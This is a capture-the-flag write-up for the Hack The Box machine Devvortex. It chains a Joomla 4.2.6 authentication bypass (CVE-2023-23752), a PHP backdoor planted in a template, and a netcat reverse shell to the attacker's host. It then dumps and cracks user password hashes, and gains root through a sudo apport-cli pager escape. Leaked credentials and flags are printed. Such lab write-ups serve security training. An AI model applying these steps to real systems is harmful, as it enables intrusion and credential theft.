

*Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Thu Jan 25 09:57:14 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.242
Nmap scan report for 10.10.11.242
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Thu Jan 25 09:58:01 2024 as: nmap -p22,80, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.242
Nmap scan report for 10.10.11.242
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 25 09:58:09 2024 -- 1 IP address (1 host up) scanned in 8.52 seconds
```

The webapp on port 80 does a redirect to "devvortex.htb" domain; it is added to the hosts file.


From the fuzzing of VHOSTs, the "dev" subdomain is identified.




The "dev" webapp appears to use the Joomla CMS.


Web fuzzing seems to show several interesting things.


From "/administrator/manifests/files/joomla.xml" the version of Joomla used was identified: it is 4.2.6.


Googling "joomla 4.2.6" brings up the CVE-2023-23752 vulnerability. Let's take a look at [https://vulncheck.com/blog/joomla-for-rce](https://vulncheck.com/blog/joomla-for-rce). The vulnerability involves bypassing authentication leading to an information leak. This can lead to revelation of access credentials to the database being used.


Thanks to the authentication bypass, it was possible to identify the login credentials for the database: user "lewis" and password "P4ntherg0t1n5r3c0n##". These credentials do not allow SSH access to the machine, but they do work to access the Administrator section of Joomla.


From [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce), it is explained how to get a reverse shell by modifying the code of a template used by the webapp.


A PHP backdoor is added to the "error.php" file so that commands can be executed.


RCE works perfectly.


Now the goal is to get a shell.

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80       
        inet 10.10.14.27  netmask 255.255.254.0  destination 10.10.14.27
        inet6 dead:beef:2::1019  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::1e74:904e:f727:5f2a  prefixlen 64  scopeid 0x20<link>
listening on [any] 80 ...

connect to [10.10.14.27] from (UNKNOWN) [10.10.11.242] 56246
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ hostname
devvortex
```

Listening only on localhost is the MySQL database. The login credentials are the ones inviduced through the information leak.

```shell
www-data@devvortex:~/dev.devvortex.htb$ ss -ntlp
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process                                                                         
LISTEN    0         4096         127.0.0.53%lo:53               0.0.0.0:*                                                                                       
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*                                                                                       
LISTEN    0         70               127.0.0.1:33060            0.0.0.0:*                                                                                       
LISTEN    0         151              127.0.0.1:3306             0.0.0.0:*                                                                                       
LISTEN    0         511                0.0.0.0:80               0.0.0.0:*        users:(("nginx",pid=883,fd=8),("nginx",pid=882,fd=8))                          
LISTEN    0         128                   [::]:22                  [::]:*                                                                                       
LISTEN    0         511                   [::]:80                  [::]:*        users:(("nginx",pid=883,fd=9),("nginx",pid=882,fd=9))
```

```shell
www-data@devvortex:~/dev.devvortex.htb$ mysql -h 127.0.0.1 -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 6153
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

```shell
mysql> SELECT table_name FROM information_schema.tables WHERE table_schema = 'joomla';
SELECT table_name FROM information_schema.tables WHERE table_schema = 'joomla';
+-------------------------------+
| TABLE_NAME                    |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)
```

"sd4fg_users" table looks interesting.

```shell
mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.00 sec)

mysql> select name,username,email,password from sd4fg_users;
select name,username,email,password from sd4fg_users;
+------------+----------+---------------------+--------------------------------------------------------------+
| name       | username | email               | password                                                     |
+------------+----------+---------------------+--------------------------------------------------------------+
| lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+---------------------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

In addition to the user lewis, there is the user "logan"; the hash of his offline password is saved. In addition to the user lewis, there is the user "logan"; the hash of his offline password is saved. JtR is used for cracking.


The password for "logan" is "tequieromucho". "logan" is a system user.

```shell
www-data@devvortex:~/dev.devvortex.htb$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
logan:x:1000:1000:,,,:/home/logan:/bin/bash
```

The "logan" credentials allow access in SSH.


***local.txt***: 1af950dd16923adc09a80e8736e07ff8


A strange binary can be run with sudo.

```shell
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

It is a Python script.

```shell
logan@devvortex:~$ file /usr/bin/apport-cli
/usr/bin/apport-cli: Python script, ASCII text executable
logan@devvortex:~$ ls -l /usr/bin/apport-cli
-rwxr-xr-x 1 root root 13367 Apr 16  2020 /usr/bin/apport-cli
```

Googling "apport-cli" identifies a possible privilge escalation vector due to CVE-2023-26604.


The version of apport-cli is 2.20.11. It seems to be one of the vulnerable versions. Source: [https://github.com/diego-tella/CVE-2023-1326-PoC](https://github.com/diego-tella/CVE-2023-1326-PoC). 

```shell
logan@devvortex:~$ sudo /usr/bin/apport-cli -v
2.20.11
```

The POC of the vulnerability is as follows:

```shell
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
press V (view report)
!/bin/bash
```

In the directory "/var/crash" there is a crash file.

```shell
logan@devvortex:~$ ls -l /var/crash/
total 32
-rw-r----- 1 logan logan 30276 Jan 24 21:22 _usr_bin_sleep.1000.crash
```

All we have to do is to try the exploit.


Simply root.

***rooot.txt***: 3dca3e04ade8d6d68bc113189062a0af

